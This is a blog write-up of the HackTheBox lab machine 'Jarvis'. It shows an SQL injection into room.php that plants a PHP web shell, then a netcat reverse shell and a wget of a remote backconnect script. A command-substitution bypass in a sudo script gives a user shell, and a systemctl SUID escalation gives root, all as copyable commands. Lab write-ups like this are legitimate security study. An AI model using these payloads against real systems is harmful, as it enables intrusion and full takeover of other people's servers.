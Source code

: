 ```yaml
---
layout:     post
title:      "HackTheBox: Jarvis"
date:       2019-11-10 00:00:00
author:     J
summary:    I love you 3000
categories: HackTheBox
thumbnail:  cube
tags:
 - OSCP
 - HackTheBox
 - Linux
---
```




Jarvis was a really satisfying box to root, in the sense that it's not too CTF-ish and had an initial foothold method that allowed me to learn something new. It is rated as a Medium difficulty box and I feel that it's slightly on the easier side of that spectrum. This will be the last HTB writeup for a while as I will begin working on certifications.


Anyone who knows me personally would know that I dislike CTF style boxes where you have really annoying key pieces of the puzzle hidden in strange places like within an image(lol it's currently on a recently retired box). Anyway, here is the information on the box we're tackling today:





![1568728913954](/images/2019/Jarvis/1568728913954.png)




Now lets get down to business



---



## Enumeration & Initial Foothold



We start by enumerating the ports open on the box:



~~~bash
nmap -sV -sC -p- oN nmap 10.10.10.143
~~~



~~~bash
# Nmap 7.70 scan initiated Wed Jul  3 07:52:10 2019 as: nmap -sV -sC -p- -oN nmap 10.10.10.143
Nmap scan report for jarvis (10.10.10.143)
Host is up (0.55s latency).
Not shown: 65530 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp    open     http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
5355/tcp  filtered llmnr
31722/tcp filtered unknown
64999/tcp open     http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul  3 08:38:07 2019 -- 1 IP address (1 host up) scanned in 2757.65 seconds

~~~





Typically when port 80 is open, it is the first thing I explore after searching through the software versions on the internet for known vulnerabilities.



Running `gobuster` returns a `phpmyadmin` login page, but for this case it's not required for entry so I have omitted that.



Crawling through the website, we notice that the `room.php` page takes an input parameter `cod` and uses it to render the room type. Injecting a `'` and appending it to the end breaks the page. Hmm..




![1568723719909](/images/2019/Jarvis/1568723719909.png)



We can further test if the previous example was a false positive using the `order by` statement. Appending a `order by 1` returns the page as per normal. We might have an SQL injection vulnerability here!



![1568723834604](/images/2019/Jarvis/1568723834604.png)



We can increment the number we `order by` to test how many columns are returned by the SQL database. When this number reaches 8, the page gets broken again. We now know that there are 7 columns returned from the SQL query.



![1568723867745](/images/2019/Jarvis/1568723867745.png)



So we know that the web application runs `php`, we have an SQL injection vulnerability, and that it selects 7 columns of data from whatever table it's querying.



Here we can write a file echoing(don't forget url encoding!) a simple php 1 liner RCE code into a file on the server. `/var/www/html` is one of the most common directories hosting web pages so we can try that first. We can use a `union select` command to add additional data to be returned by the SQL query. If the number of columns matches the actual number that's returned by the query, an additional row will be appended to the results(I'll probably have to make another post on explaining this). So, we select 6(+1 payload to make 7) to create our query:



~~~
http://10.10.10.143/room.php?cod=1+union+select+1,2,3,4,5,6,'<%3fphp+system($_GET["cmd"])%3b+%3f>'+into+outfile+'/var/www/html/cmd.php'+%23
~~~



![1568723959570](/images/2019/Jarvis/1568723959570.png)



After that, we can try accessing our new file at `10.10.10.143/cmd.php` and note that it did create something:





![1568728086337](/images/2019/Jarvis/1568728086337.png)





Now that we have the php file on the server, we can execute our netcat reverse shell back to our listener:

~~~bash
# create listener
nc -lvp 443

# call our reverse shell(please use a different terminal for this, don't do it in the listner)

curl -X GET "http://10.10.10.143/cmd.php?cmd=nc%2010.10.14.4%20443%20-e%20/bin/sh"
~~~



Of course you don't have to use `curl`, just entering the payload in the browser works just as well. 



In any case, we get a shell!

![1568724141929](/images/2019/Jarvis/1568724141929.png)





---



## Privilege Escalation - User



We upgrade to a prettier shell, and run a `sudo -l` to check out sudo privileges



![1568724227472](/images/2019/Jarvis/1568724227472.png)



An interesting command was found within this `simpler.py` file.



![1568724294794](/images/2019/Jarvis/1568724294794.png)





As we can see, the file checks for bad characters. However, a key character `$` was missing. Using command substitution, we can still get it to execute scripts.



Here I go back to using the trusty  set of python pty shell scripts by infodox, which can be found [here][1]. As shown in the writeup on Writeup, these scripts allow us to spawn a reverse shell from the target to the host. The result allows for a fully interactive shell, inclusive of tab autocomplete, history, and such.



We first edit`tcp_pty_backconnect.py` with our IP address, and then host the file on our HTTP server using port of our choosing.



~~~bash
python -m SimpleHTTPServer 1234
~~~





![1568724965720](/images/2019/Jarvis/1568724965720.png)





After which, we enter a world-writable directory where we can work out of;  `/tmp` is usually my favourite. Inside we can use `wget` to download our script



~~~bash
wget 10.10.16.53:1234/tcp_pty_backconnect.py
~~~



![1568725392837](/images/2019/Jarvis/1568725392837.png)



We can then setup the listener to catch the reverse shell by binding it to the IP and port previously specified:

~~~bash
python tcp_pty_shell_handler.py -b 10.10.16.53:31337 
~~~



### Simpler.py



We run the script as the user `pepper`, and see the usage instructions. Here we know that `-p` will call the function we want to exploit.



![1568726080425](/images/2019/Jarvis/1568726080425.png)



~~~bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py  
# then
8.8.8.8 $(python /tmp/tcp_pty_backconnect.py)

~~~



On the listener we previously set up, we see that we got our user shell.



![1568726351083](/images/2019/Jarvis/1568726351083.png)



---



## Privilege Escalation - Root



Doing the usual checks, we see that `systemctl` has an SUID bit set and will run as root.



![1568726493292](/images/2019/Jarvis/1568726493292.png)



We check this very lovely website called [gtfobins][2] and see that `systemctl` can be used to elevate the user privileges if SUID bit or if `sudo` can be run on it as root.



Kudos to the creators of this box, whether intentional or not. There was one last hoop to jump through.



Following the steps in [gtfobins][2] did not escalate our shell to root.  Poo :(



However, if you think about it. What's the difference between the following? :

1. Have SUID bit set as root
2. Can SUDO as root with no password



Basically, the main difference is simply the lack of the `sudo -u root` or `sudo` prefix when running the binary or script.

So this basically means, we can try the methods described that were meant for the `sudo` section of the page, just removing the word `sudo` from the command(s).



Here, in plain text for your copy paste pleasure:

~~~bash
TF=$(mktemp)
echo /bin/sh >$TF
chmod +x $TF
SYSTEMD_EDITOR=$TF systemctl edit system.slice
~~~



And executing these gets us our root shell. From here we can go to the respective directories and get the flags required. :)



![1568727190405](/images/2019/Jarvis/1568727190405.png)



Cya guys next time. I love you 3000!





[1]: https://github.com/infodox/python-pty-shells

[2]: https://gtfobins.github.io/gtfobins/systemctl/





